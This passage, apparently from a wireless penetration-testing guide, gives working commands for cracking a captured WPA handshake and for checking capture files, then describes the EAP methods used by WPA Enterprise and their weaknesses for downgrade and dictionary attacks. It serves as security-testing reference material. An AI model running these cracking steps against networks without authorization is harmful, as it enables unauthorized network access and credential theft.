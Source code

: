 Once the handshake is captured you can **crack** it with `aircrack-ng`:

```
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 64:20:9F:15:4F:D7 /tmp/psk*.cap
```

### Check if handshake in file

**aircrack**

```bash
aircrack-ng psk-01.cap #Search your bssid/essid and check if any handshake was capture
```

**tshark**

```bash
tshark -r psk-01.cap -n -Y eapol #Filter handshake messages #You should have the 4 messages.
```

[**cowpatty**](https://github.com/roobixx/cowpatty)

```
cowpatty -r psk-01.cap -s "ESSID" -f -
```

_If this tool finds an uncompleted handshake of an ESSID before the completed one, it won't detect the valid one._

**pyrit**

```bash
apt-get install pyrit #Not working for newer versions of kali
pyrit -r psk-01.cap analyze
```

## **WPA Enterprise (MGT)**

**It** is important to talk about the **different authentication methods** that could be used by an enterprise Wifi. For this kind of Wifis you will probably find in `airodump-ng` something like this:

```
6A:FE:3B:73:18:FB  -58       19        0    0   1  195  WPA2 CCMP   MGT  NameOfMyWifi
```

**EAP** (Extensible Authentication Protocol) the **skull** of the **authentication communication**, on **top** of this, an **authentication algorithm** is used by the server to authenticate the **client** (**supplicant**) and in same cases by the client to authenticate the server.\
Main authentication algorithms used in this case:

* **EAP-GTC:** Is an EAP method to support the use of hardware tokens and one-time passwords with EAP-PEAP. Its implementation is similar to MSCHAPv2, but does not use a peer challenge. Instead, passwords are sent to the access point in **plaintext** (very interesting for downgrade attacks).
* **EAP-MD-5 (Message Digest)**: The client send the MD5 hash of the password. **Not recommended**: Vulnrable to dictionary attacks, no server authentication and no way to generate per session wired equivalent privacy (WEP) keys.
* **EAP-TLS (Transport Layer Security)**: It relies on **client-side and server-side certificates** to perform authentication and can be used to dynamically generate user-based and session-based WEP keys to secure subsequent communications.
* **EAP-TTLS (Tunneled Transport Layer Security)**: **Mutual authentication** of the client and network through an encrypted channel (or tunnel), as well as a means to derive dynamic, per-user, per-session WEP keys. Unlike EAP-TLS, **EAP-TTLS requires only server-side certificates (client will use credentials)**.
* **PEAP (Protected Extensible Authentication Protocol)**: PEAP is like the **EAP** protocol but creating a **TLS tunnel** to protect the communication. Then, weak authentication protocols can by used on top of EAP as they will be protected by the tunnel.
  * **PEAP-MSCHAPv2**: This is also known as just **PEAP** because it is widely adopted. This is just the vulnerable challenge/response called MSCHAPv2 on to of PEAP (it is protected by the TLS tunnel).